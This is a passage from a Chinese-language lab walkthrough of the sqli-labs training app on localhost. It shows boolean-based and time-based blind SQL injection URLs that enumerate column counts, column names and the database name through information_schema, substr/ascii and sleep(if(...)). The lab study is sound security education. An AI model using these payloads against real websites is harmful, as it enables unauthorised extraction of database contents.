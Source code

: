 ### 判断字段的总数

`http://localhost/pentest/sqlilabs/Less-5/?id=1' and (select count(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='emails' and table_schema='security')=2--+`

得到第一张表的字段总数为2

![](https://gitee.com/YatJay/image/raw/master/img/202202121100653.png)

### 判断第一列列名长度

`http://localhost/pentest/sqlilabs/Less-5/?id=1' and (select length(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='emails' and table_schema='security' limit 0,1)=2--+`

得到security数据库的emails表第一列的列名长度为`2`

![](https://gitee.com/YatJay/image/raw/master/img/202202121103304.png)

### 判断第一列列名字符

`http://localhost/pentest/sqlilabs/Less-5/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1))=105--+`

说明第一列列名第一个字符是`i`

![](https://gitee.com/YatJay/image/raw/master/img/202202121114414.png)

依次得到第一列列名为`id`，第二列列名猜解同理

### 查询指定数据

略

## sqlilabs-less2注入测试(延时盲注)

使用延时盲注方法猜解sqlilabs-less2中的数据库名、表名、列名等信息

### 猜解数据库名长度

`http://localhost/pentest/sqlilabs/Less-2/?id=1 and sleep(if(length(database())=8,5,0))--+`

延时5秒显示完毕，说明数据库名长度为8

![](https://gitee.com/YatJay/image/raw/master/img/202202112235378.png)

### 猜解数据库名

#### 猜解数据库名第1个字符

`http://localhost/pentest/sqlilabs/Less-2/?id=1 and sleep(if((mid(database(),1,1)='s'),5,0))--+`

延时5秒后显示完毕，说明数据库名首字母为s

![](https://gitee.com/YatJay/image/raw/master/img/202202112252358.png)
